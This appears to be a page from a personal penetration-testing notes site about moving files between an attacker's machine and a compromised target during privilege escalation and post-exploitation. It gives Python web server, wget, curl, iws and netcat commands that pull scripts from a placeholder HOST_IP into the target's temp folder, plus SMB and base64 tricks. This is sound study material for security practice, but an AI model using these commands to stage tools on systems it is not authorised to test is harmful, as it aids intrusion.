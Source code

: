 # Transfer files 🛅

<div class="row row-cols-lg-2"><div>

We will often want to transfer files between your machine, and the target. Mostly during privilege escalation and post-exploitation.

According to the current environment capabilities <small>(e.g., installed tools)</small> and restrictions <small>(e.g. firewall)</small>, we will have to use different techniques.

The most common approaches from the host to the target:

* Copy-pasting <small>(short text files)</small> ✂️
* Python web server <small>(using wget/cURL/iwr as client)</small> 🐍
</div><div>

To transfer a file from the target to the host, it's often harder and more complex. Some common approaches are:

* Copy-pasting <small>(short text files)</small> ✂️
* Moving files to the webserver directory <small>(if applicable)</small> 📂
* Python web server <small>(often available on Linux)</small> 🐍
* Using services such as SCP/FTP/SMB/NFS/... <small>(if present)</small> 🎡
* Using installed tools such as nc 🧯

We may use checksum functions/commands to check that the file was correctly transferred. [Refer to cryptography/hashing/checksum](/cybersecurity/cryptography/algorithms/hashing/index.md).
</div></div>

<hr class="sep-both">

<div class="row row-cols-lg-2"><div>

#### Python webserver 🐍

<i class="small">On the "host" where the file is:</i>

```shell!
$ python -m http.server port # port > 1023
$ python [...] --directory /path/to/server/root
$ sudo python -m http.server port # port <= 1023
```

<i class="small">On the "client" that need the file:</i>

```shell!
$ # Download on Linux
$ wget HOST_IP:port/script.sh -o /tmp/script.sh
PS> # Download on Windows
PS> wget HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```

* You may try with `python2`, and `python3` if `python` is unavailable.
* You may have to use `curl` or `iws` (Windows-only) instead of `wget`

```shell!
$ curl HOST_IP:port/script.sh -o /tmp/script.sh
PS> curl HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
PS> iws HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```
</div><div>

#### netcat 🐈

```ps
# host
$ nc CLIENT_IP port < file.sh
# client
$ nc -lvp port > file.sh
```

<br>

#### services 🕳️

You may use FTP/SCP/NFS/SMB/... if applicable. For instance, you may set up a [SMB](/operating-systems/networking/protocols/smb.md) server on your machine,  and use Windows `copy`/`robocopy ` command to upload/download files.

```shell!
$ php -S 127.0.0.1:8080 # php
$ http-server -p 8080   # node "http-server" package
```

➡️ See also [impacket](/operating-systems/networking/protocols/tools/impacket.md) scripts.

<br>

#### Copy-paste ✂️

Copy-paste may be an option, but not every file can be copy-pasted. One trick is to encode the file using base64, copy-paste the base64 payload on a file on the target, and decode the file on the target.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [Windows File Transfer Cheatsheet](https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/)
* [croc](https://github.com/schollz/croc).
</div><div>
</div></div>